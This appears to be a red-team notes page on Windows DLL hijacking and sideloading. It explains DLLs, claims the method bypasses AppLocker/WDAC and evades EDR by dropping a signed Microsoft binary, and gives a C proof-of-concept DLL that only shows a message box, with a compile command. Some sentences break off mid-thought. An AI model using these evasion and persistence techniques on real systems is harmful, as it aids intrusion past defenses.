 # DLL Hijacking/Sideloading

> WHAT ARE DLLs : At its core, a Dynamic Link Library (DLL) is a file containing code and data that multiple programs can use simultaneously. DLLs are a crucial component in the Windows operating system because Windows heavily relies on them for pretty much anything. Think of it as a shared repository of functionality, accessible to any application that needs it. Unlike static libraries, which are integrated into an application at compile time, DLLs are loaded into memory at runtime, providing a level of flexibility and modularity that is essential for software integrity. Each process started on Windows uses DLLs in order to operate properly. Additionally, DLLs can be also custom made, which means that for different software vendors, dedicated DLLs can be encountered. Usually they are programmed in C/C++, however, this is not the only option. 

> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

> Additionally, DLL Hijacking bypasses application whitelisteng (applocker/WDAC) and breaks the EDR execution chain, as the DLL is loaded by a signed microsoft executable (i.e. Onedrive), dns/http requests are no longer abnormal

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE h, DWORD r, LPVOID p) {
    if (r == DLL_PROCESS_ATTACH) {
        MessageBoxW(NULL, L"DLL sideload successful!", L"Debug", MB_OK | MB_ICONINFORMATION);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```